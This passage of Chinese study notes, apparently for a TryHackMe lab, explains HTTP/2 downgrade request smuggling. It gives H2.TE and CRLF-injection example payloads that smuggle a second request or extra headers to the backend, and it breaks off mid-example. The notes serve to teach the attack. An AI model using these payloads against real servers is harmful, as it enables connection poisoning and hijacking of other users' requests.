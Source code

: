 ### H2.TE: 利用 `Transfer-Encoding` (Exploiting `Transfer-Encoding`)

*   **原理:** 类似于 H2.CL，攻击者在 HTTP/2 请求中包含一个 `transfer-encoding: chunked` 头部。
    *   如果前端代理在降级时，将此头部原样传递给 HTTP/1.1 后端。
    *   如果后端服务器优先处理 `Transfer-Encoding` 头部。
*   **利用方法:**
    1.  攻击者发送一个 HTTP/2 `POST` 请求，包含 `transfer-encoding: chunked` 头部。
    2.  HTTP/2 请求的实际正文被构造成一个分块编码的 HTTP/1.1 消息，其中第一个块大小为 `0`，后面跟着要走私的请求。
    3.  前端代理降级请求，并将 `Transfer-Encoding: chunked` 和构造的请求体传递给后端。
    4.  后端服务器看到 `Transfer-Encoding: chunked`，处理到第一个 `0` 大小的块，认为请求结束。
    5.  剩余的 HTTP/2 请求体内容（即走私的请求）毒害后端连接。
*   **示例 Payload (H2 请求):**
    ```
    :method POST
    :path /
    :scheme https
    :authority tryhackme.com
    user-agent Mozilla/5.0
    transfer-encoding chunked # 关键点

    0\r\n                     # HTTP/2请求体，模拟分块结束
    \r\n
    GET /other HTTP/1.1\r\n  # 走私的请求
    Foo: s
    ```
*   **后果 (后端看到):**
    第一个请求 (来自攻击者):
    ```
    POST / HTTP/1.1
    User-Agent: Mozilla/5.0
    Transfer-encoding: chunked
    Host: tryhackme.com

    0

    ```
    残留在缓冲区: `GET /other HTTP/1.1\r\nFoo: s` (假设其后还有内容或等待下一个请求补全)

### CRLF 注入 (CRLF Injection)

*   **原理:**
    *   CRLF (`\r\n`) 在 HTTP/1.1 中用作头部分隔符和头部与正文的分隔符。
    *   HTTP/2 允许在头部值中包含任意二进制数据，包括 `\r\n`。
    *   如果前端代理在降级时，未正确处理或过滤 HTTP/2 头部值中的 `\r\n`，直接将其传递到 HTTP/1.1 请求中。
    *   这会导致在生成的 HTTP/1.1 请求中注入新的头部，甚至注入一个完整的第二个请求。
*   **利用方法:**
    1.  攻击者在一个 HTTP/2 头部的值中（如自定义头部 `Foo`）注入 `\r\n` 和后续的 HTTP/1.1 头部或完整请求。
    2.  前端代理将此 HTTP/2 请求降级。如果 `\r\n` 未被处理，它们将在生成的 HTTP/1.1 请求中充当分隔符。
*   **示例 Payload (H2 请求):**
    ```
    :method POST
    :path /
    :scheme https
    :authority tryhackme.com
    user-agent Mozilla/5.0
    Foo bar\r\n                      # 注入CRLF
        Content-Length: 0\r\n         # 注入新头部
        \r\n                         # 注入空行，分隔头部与正文
        GET /other HTTP/1.1\r\n      # 注入走私的请求
        X: x
    ```
*   **后果 (后端看到):**
    ```
    POST / HTTP/1.1